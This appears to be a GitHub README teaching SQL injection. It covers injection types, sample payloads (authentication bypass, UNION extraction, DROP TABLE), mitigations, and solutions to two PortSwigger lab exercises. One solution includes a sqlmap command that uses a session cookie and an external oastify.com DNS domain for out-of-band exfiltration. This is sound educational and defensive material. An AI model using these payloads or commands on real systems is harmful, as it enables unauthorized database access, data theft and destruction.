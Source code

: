 # SQL Injection Vulnerability

## Overview
SQL Injection (SQLi) is a web security vulnerability that allows an attacker to manipulate the queries an application makes to its database. By exploiting SQL queries, an attacker can retrieve, modify, or delete database records without proper authorization.

## Types of SQL Injection
- **In-band SQL Injection**: Uses the same channel to both launch the attack and gather results.
  - **Error-Based SQL Injection**: Extracts information through database error messages.
  - **Union-Based SQL Injection**: Uses the `UNION` SQL operator to retrieve additional data.
- **Blind SQL Injection**: Exploits queries that do not return results but still affect database logic.
  - **Boolean-Based Blind SQLi**: Infers data by observing application behavior.
  - **Time-Based Blind SQLi**: Uses time delays to determine query success.
- **Out-of-Band SQL Injection**: Utilizes external systems like DNS or HTTP requests to exfiltrate data.

## Impact of a SQL Injection Attack
The severity of SQLi depends on the vulnerability. In the worst-case scenario, an attacker can:
- Leak sensitive data
- Perform CRUD (Create, Read, Update, Delete) operations
- Execute Remote Code Execution (RCE)

## Example of a SQL Injection Attack
### Vulnerable Query (User Authentication)
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password123';
```
If an attacker inputs `' OR '1'='1`, the resulting query becomes:
```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
```
Since `1=1` always evaluates to true, the attacker gains unauthorized access.

## Exploitation Techniques
- **Extracting Data**: `UNION SELECT username, password FROM users;`
- **Bypassing Authentication**: `admin' --`
- **Altering Database**: `DROP TABLE users;`
- **Enumerating Database Schema**:
  - **MySQL**: `SELECT table_name FROM information_schema.tables;`
  - **MSSQL**: `SELECT name FROM sys.tables;`

## Mitigation Strategies
### 1. Use Prepared Statements (Parameterized Queries)
```python
cursor.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password))
```

### 2. Implement Stored Procedures
```sql
CREATE PROCEDURE ValidateUser (@username VARCHAR(50), @password VARCHAR(50))
AS
BEGIN
    SELECT * FROM users WHERE username = @username AND password = @password;
END
```

### 3. Apply the Principle of Least Privilege
- Use database accounts with minimal permissions.

### 4. Validate and Sanitize Input
- Reject unexpected characters and enforce input length restrictions.

### 5. Use Web Application Firewalls (WAFs)
- Tools like **AWS WAF** or **ModSecurity** can block common SQLi patterns.



# Solution to PortSwigger Labs

# SQL Injection Lab 1: Retrieve Hidden Data (WHERE Clause Exploitation)

## Lab Details
**Lab:** [SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)  
**Database:** PostgreSQL  
**Tool:** Burp Suite, SQLMap  

## Quick Solution
This lab demonstrates a basic SQL injection attack where modifying the `category` parameter allows retrieving hidden items from the database.

## Solution Steps
### 1. Manual Exploitation (Using Burp Suite)
1. Use **Burp Suite** to intercept and modify the request that filters products by category.
2. Modify the `category` parameter with the following payload:
   ```sql
   '+OR+1=1--
   ```
3. Submit the request and verify that additional hidden items appear in the response.

### 2. Automated Exploitation (Using SQLMap)
Use `sqlmap` to automate SQL injection detection and exploitation:
```sh
sudo sqlmap -u 'https://0a7600f603ba54f885822399001d0005.web-security-academy.net:443/filter?category=Accessories*' \
--cookie='session=ma2R4BBvX2qlhfa1rxLtomrI2mEf8WtS' --batch \
--dns-domain=pa3t9ag3m5yqdm6stxugb16nsey5mvak.oastify.com
```

## Notes
- The database management system used in this lab is **PostgreSQL**.
- SQLMap successfully detects and exploits the vulnerability.

# SQL Injection Lab 2: Login Bypass (Authentication Exploitation)

## Lab Details
**Lab:** [SQL Injection Vulnerability Allowing Login Bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)  
**Database:** PostgreSQL  
**Tool:** Burp Suite, ~~sqlmap~~

## Quick Solution
This lab demonstrates a basic SQL injection attack where modifying the `username` parameter allows bypassing authentication and logging in as an administrator.

## Solution Steps
### 1. Manual Exploitation (Using Burp Suite)
1. Use **Burp Suite** to intercept and modify the login request.
2. Modify the `username` parameter with the following payload:
   ```sql
   administrator'--
   ```
3. Submit the request and verify that authentication is bypassed, granting administrator access.



## References
- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger SQLi Labs](https://portswigger.net/web-security/sql-injection)

---
This repository contains examples, test cases, and solutions related to SQL Injection vulnerabilities. Feel free to contribute and explore various SQLi scenarios! 🚀


